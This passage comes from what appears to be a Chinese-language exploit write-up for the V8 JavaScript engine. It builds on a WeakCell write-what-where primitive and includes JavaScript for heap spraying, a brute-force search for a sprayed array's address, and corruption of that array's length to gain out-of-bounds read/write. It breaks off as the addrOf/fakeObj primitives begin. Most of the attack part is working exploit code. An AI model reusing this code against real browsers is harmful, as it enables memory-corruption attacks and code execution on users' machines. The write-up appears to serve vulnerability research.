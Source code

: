   
这为我们提供了一个“写入什么-在哪里”的原语，尽管我们只能控制“在哪里”，而不能控制“什么”。写入的值始终是一个有效的WeakCell指针（即 V8 堆对象），这很有用，但仍然有限。  
  
泄露地址并获取越界读写  
  
就本节而言，我还没有找到一种优雅的方法来泄漏地址。但是，我们可以利用堆沙箱环境。由于沙箱架构的原因，所有地址都表示为相对于沙箱基址的 DWORD 偏移量。  
  
通过我的测试，我始终观察到巨大的数组分配最终会以类似的偏移量结束：  
  
```
// Spray something useful to corruptp.spray2 = [];for (let i = 0; i < 10000; i++) {  p.spray2.push(uint64ToFloat(0x4040404040404040n));}
```  
  
  
这种可预测的行为使我们能够强行破解目标地址：  
  
```
/** Try to find the spray2 address */functionfindSpray2Addr() {// let spray2_addr = 0x14b000;let spray2_addr = 0x18b000; // GDBlet first_offset_changed = -1;let spray64 = new BigUint64Array(p.spray.length);let spray8 = newUint8Array(spray64.buffer);// % DebugPrint(p.spray2);for (spray2_addr; spray2_addr < 0x200000; spray2_addr += 0x1000) {    // Set a valid pointer at spray2_addr    for (let i = 0; i < p.spray.length; i++) {      p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(spray2_addr) << 32n));    }    p.registry.register({}, undefined, p.token);    // Create a spray2's memory view    for (let i = 0; i < p.spray2.length; i++) {      spray64[i] = floatToUint64(p.spray2[i]);    }    // Look for the overwritten value    first_offset_changed = -1;    for (let i = 0; i < spray8.length; i++) {      if (spray8[i] != 0x40) {        first_offset_changed = i;        break;      }    }    if (first_offset_changed != -1) {      break;    }  }if (first_offset_changed == -1) {    print("Failed to overwrite spray2");    returnfalse;  }// Now we can calculate the real spray2 address  p.spray2_addr = spray2_addr - first_offset_changed + 3;  print(`spray2_addr = 0x${p.spray2_addr.toString(16)}`);returntrue;}
```  
  
  
这是漏洞利用中唯一缺乏完美稳定性的部分。可以通过更复杂的堆操作技术或寻找其他地址泄露原语来提高其可靠性。至于如何增强这方面，留给感兴趣的读者作为练习吧。  
  
利用我们新获得的地址泄漏，我们现在可以破坏spray2数组的元素大小字段：  
  
```
functiongetSpray2Oob() {  spray2_length_addr = p.spray2_addr + 0x14;  print(`spray2_length_addr = 0x${spray2_length_addr.toString(16)}`);// Try to set the elements.length to a new value. It doesn't update the array.length!for (let i = 0; i < p.spray.length; i++) {    p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(spray2_length_addr - 6 * 4 - 2) << 32n));  }  p.registry.register({}, undefined, p.token);// Update the length from 10000 to 0x20000  p.spray2.length = 0x20000;  print(`spray2.length = 0x${p.spray2.length.toString(16)}`);// Check if we can OOB readfor (let i = 10100; i < 10400; i++) {    if (p.spray2[i] !== undefined) {      returntrue;    }  }returnfalse;}
```  
  
  
这种操作将我们控制的数组转变为强大的越界读写原语，为下一步的利用奠定了基础。  
  
任意读写  
  
至此，得益于数组，我们已经拥有了强大的越界读写能力PACKED_DOUBLE_ELEMENTS spray2。现在我们将实现addrOf()和fakeObj()原语。  
  
首先，让我们喷射第三个数组，这次使用PACKED_ELEMENTS：  
  
```
// An object which will be used for arbitrary read-writep.spray3 = [{}];for (let i = 0; i < 100; i++) {  p.spray3.push(13.37 + 0.1 * i);}
```  
  